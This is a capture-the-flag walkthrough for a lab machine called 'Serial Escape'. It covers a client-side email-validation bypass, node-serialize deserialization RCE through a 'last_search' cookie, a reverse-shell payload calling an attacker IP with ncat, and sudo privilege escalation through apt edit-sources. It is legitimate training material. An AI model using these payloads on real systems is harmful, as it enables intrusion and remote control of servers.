# Serial Escape

To start with you can run a simple NMAP scan against the target.
```
nmap -sV -v <target IP>
```


Based on the NMAP results, there are two open ports: SSH (22) and HTTP (80).
If you navigate to the target IP address on a browser you will see a page as follows.



Based on the error message, you can understand that the base URL "/" requires authentication to visit.

To discover directories on the web application, you can use a directory brute-forcing tool like FFUF. This revealed an additional directory named 'dev', which also requires authentication.



When you navigate to the registration page to create a new user, you will see that the form requires you to enter an email address ending with "@oracle.az" only.



Upon registering, the application sends an OTP code to the provided email for verification, ensuring that users cannot create accounts with fake email addresses. However, after further inspection, you can notice that the email validation (checking if it ends with '@oracle.az') is only performed on the client side.



So, you can fill out the registration form with dummy inputs, capture the network traffic with Burp Suite, and replace the email address with one of your choice (either an email you own or a temporary/disposable email) to receive the OTP code and pass verification.
For demonstration purposes, a temporary email was used.
https://temp-mail.org/



Once you have placed a valid email address you can forward the traffic, which will send an OTP to the provided address.



To complete the registration process, enter the OTP code and submit.




As a result, you will be redirected to the login page with a success message indicating that you have successfully created a new user.
Having a user on the web application you can log in now. On the home page, you will see the first flag for the CTF.



Since you now have a valid user, you can visit the "dev" directory discovered earlier while directory brute-forcing with FFUF.
On the "dev" directory you will see two files: notes.txt and source.zip



The notes.txt file contains a message titled 'Security Alert,' highlighting a critical vulnerability in the application originating from a package called ```node-serialize```.
According to this message, you can understand that your next step will be downloading the source code of the web app (```/dev/source.zip```) and analyzing it to move the attack further. 



To begin your code review, start with the ```app.js``` file. In the ```app.js``` file, you'll also notice a warning comment regarding the ```node-serialize``` package.



To identify what the node-serialize package is vulnerable to, you can search online. You'll discover that it has a critical vulnerability: arbitrary remote code execution, which is explained in the following link. This vulnerability specifically affects the ```unserialize``` function, according to the explanation.
https://security.snyk.io/vuln/npm:node-serialize:20170208

Knowing that the web application is vulnerable to remote code execution, you can examine the source code further to find out where and how the ```node-serialize``` package is used. By searching in the ```app.js``` file, you'll find that the vulnerable package is passed to the ```home``` router after being imported.



To understand how and for what functionality of the web application the ```node-serialize``` package is used, open the JavaScript file responsible for the home page.
Upon reviewing the code, two key points emerge:
* When a user searches for a keyword, it is taken from the request, serialized, and stored in a cookie named ```last_search```.
* During each GET request to the home page, the value of the ```last_search``` cookie is retrieved, **_UNSERIALIZED_**. (which is the vulnerable part), and passed to the client side for display.

This functionality allows users to see their most recent search by storing its value in a cookie.



In the image below, you can see an example of the usage of this functionality.



As your next step, you have to craft such a payload that will execute system commands on the target website.
You can find an example payload from the link provided earlier.

```javascript
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```

To adapt this payload for our target application, we need to remove the dictionary structure, enclosing double quotes, and any escaped characters, keeping only the core payload.

To test if the payload works, we can attempt to ping our attacking machine and verify whether the command executes. To detect the ping requests, start a ```tcpdump``` on the attacker machine to monitor ICMP traffic.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ping <attacker IP> -c 3', function(error, stdout, stderr) { console.log(stdout) });}()
```

Keep in mind that for successful code execution, the payload must first be sent to the web application. After that, you need to send another search keyword. This way, the payload becomes your previous search query and gets unserialized when accessing the home page. The vulnerability, as mentioned earlier, lies in the unserialize function of the package, not the serialize function.

Once the payload above is injected, you will observe six ICMP packets: three requests and three replies.



Confirming that the payload works, you can modify the payload to get a reverse shell.

```javascript
_$$ND_FUNC$$_function (){require('child_process').exec('ncat <attacker IP> <attacker Port> -e /bin/bash', function(error, stdout, stderr) { console.log(stdout) });}()
```

Upon injection of the payload above, you will get a reverse shell under the "www-data" user, which will enable you to grab the second flag for the CTF.




Moving on you can start looking around for a vulnerability/misconfiguration leading to privilege escalation.
As a result of executing  the ```sudo -l``` command, you can see that the www-data user is allowed to run the following command with ```sudo``` privileges.

```
/usr/bin/apt edit-sources ../*
```


Executing the command ```sudo /usr/bin/apt edit-sources ../foo``` will present you with multiple options to choose a text editor. For privilege escalation, you can select either ```nano``` or ```vim```. Since these editors will run with sudo privileges, you can implement techniques to escalate your privileges. Both editors have techniques for privilege escalation, which you can find in the following links:

https://gtfobins.github.io/gtfobins/vim/#sudo

https://gtfobins.github.io/gtfobins/nano/#sudo



As a result, you will gain elevated privileges on the target machines under the root user and will be able to read the last flag for the CTF.



